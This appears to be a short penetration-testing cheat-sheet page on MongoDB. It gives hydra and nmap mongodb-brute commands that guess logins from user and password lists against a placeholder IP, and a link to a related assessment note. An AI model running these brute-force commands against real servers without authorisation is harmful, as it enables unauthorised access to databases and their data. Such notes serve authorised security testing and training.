 # MongoDB

## 01 - Hydra

```
$ hydra -L users.lst -P passwords.lst <IP> mongodb
```

## 02 - Nmap

```
$ nmap -p 27017,27018 -Pn -n --script mongodb-brute --script-args userdb=users.lst,passdb=passwords.lst <IP>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/04 - Vulnerable Network Protocols/Databases/NoSQL/MongoDB|Vulnerability Assessment: MongoDB]]